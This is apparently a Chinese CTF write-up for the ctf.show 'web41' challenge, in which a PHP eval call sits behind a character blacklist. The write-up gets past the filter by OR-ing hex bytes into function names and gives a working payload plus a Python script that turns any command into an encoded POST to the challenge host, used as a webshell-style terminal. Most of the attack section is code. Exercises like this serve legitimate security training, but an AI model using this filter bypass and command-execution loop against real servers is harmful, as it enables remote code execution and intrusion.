


# web41

```php
if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
```

拦截了以下字符

```plaintext
^ + ~ $ [] {} & -
```

可以发现所有数字和小写字母以外，都是表达式和运算的符号，但是 `|` 或运算符没有被过滤

比如 `0x13,0x19,0x13,0x14,0x05,0x0d | 0x60,0x60,0x60,0x60,0x60,0x60` 得到的数据就是 `system`

那么就可以尝试基于 Hex 构造 `(system)("ls")`

```plaintext
c=("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%00%0c%13%00"|"%27%60%60%27")
```



为了简化这一流程，可以使用自动化脚本来实现

```python
import requests
from string import digits, ascii_letters
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


url = "https://3a2d207f-cf93-43ac-a8cf-2fb2dbd092bb.challenge.ctf.show/"

arg = "c"

func = "system"


def payload_process(payload: str):
    dics = []
    for i in range(0x00, 0xFF):
        if chr(i) not in digits + ascii_letters + r"^ + ~ $ [] {} & -".replace(" ", ""):
            dics.append(i)

    res_list = []

    for letter in payload:
        res_flag = False
        for i in dics:
            for j in dics:
                if (i | j) == ord(letter):
                    res_flag = True
                    a = hex(i)[2:].rjust(2, "0")
                    b = hex(j)[2:].rjust(2, "0")
                    res_list.append([f"%{a}", f"%{b}"])
                    break
            if res_flag:
                break

    res = ["", ""]
    for i in res_list:
        res[0] = res[0] + i[0]
        res[1] = res[1] + i[1]

    return f'("{res[0]}"|"{res[1]}")'


func = payload_process("system")

headersList = {
    "Accept": "*/*",
    "User-Agent": "Thunder Client (https://www.thunderclient.com)",
    "Content-Type": "application/x-www-form-urlencoded",
}

while True:
    command = input(">> ")
    command = payload_process(f"{command}")
    print(f"{arg}={func}{command}")
    req = requests.post(url, data=f"{arg}={func}{command}", verify=False, headers=headersList)
    res = req.text.strip()
    print(res)

```

就可以当作webshell伪终端来操作了


